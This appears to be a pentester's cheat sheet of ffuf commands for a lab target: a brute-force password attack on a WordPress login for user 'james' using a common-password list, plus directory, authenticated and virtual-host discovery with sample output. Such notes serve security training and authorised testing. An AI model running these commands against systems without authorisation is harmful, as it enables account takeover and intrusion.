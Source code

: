 ### Password attack
```bash - kali
ffuf -X POST -u http://$TARGET:65000//wordpress/wp-login.php -d "log=james&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.110.100%3A65000%2Fwordpress%2Fwp-admin%2F&testcookie=1" -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -fs 5090, 5178
```
#### Web Discovery
```bash - kali
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://$TARGET:80/FUZZ -c -recursion -e .php,.bak -mc 200 -r -s
```
** swap for if nothing is found:**
```
/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
```
- [ ] ffuf for files
```bash - kali
ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ -u http://$TARGET:80/FUZZ -c -recursion -e .php,.bak -mc 200 -r -s
```
#### ffuf with authentication
```bash - kali
ffuf -c -H 'Authentication: Basic YWRtaW46YWRtaW4=' -w /usr/share/wordlists/dirb/big.txt -u http://$TARGET/FUZZ -recursion -e .php,.bak -mc 200 -r -s
```
#### VHOST discovery
```bash - kali
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://$TARGET:443 -H "Host: FUZZ.$TARGET"
```
```
198 [status: 200, Size: 30589, Words: 12757, Lines: 547]
preferences [status: 200, Size: 30589, Words: 12757, Lines: 547]
French [status: 200, Size: 30589, Words: 12757, Lines: 547]
red [status: 200, Size: 30589, Words: 12757, Lines: 547]
Misc [status: 200, Size: 30589, Words: 12757, Lines: 547]
collapse_tcat [status: 200, Size: 30589, Words: 12757, Lines: 547]
toys [status: 200, Size: 30589, Words: 12757, Lines: 547]
success [status: 200, Size: 30589, Words: 12757, Lines: 547]
190 [status: 200, Size: 30589, Words: 12757, Lines: 547]
player [status: 200, Size: 30589, Words: 12757, Lines: 547]
industries [status: 200, Size: 30589, Words: 12757, Lines: 547]
miscellaneous [Status: 200, Size: 30589, Words: 12757, Lines: 547]
Featured [Status: 200, Size: 30589, Words: 12757, Lines: 547]
smb [status: 200, Size: 30589, Words: 12757, Lines: 547]
premium [Status: 200, Size: 30589, Words: 12757, Lines: 547]
```
Take the size value, and append to command to ignore:
```bash - kali
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://$TARGET:443 -H "Host: FUZZ.$TARGET" -fs 30589
```
`store [status: 200, size: 4029, words: 1053, Lines: 102] `
`Store [Status: 200, Size: 4029, Words: 1053, Lines: 102]`
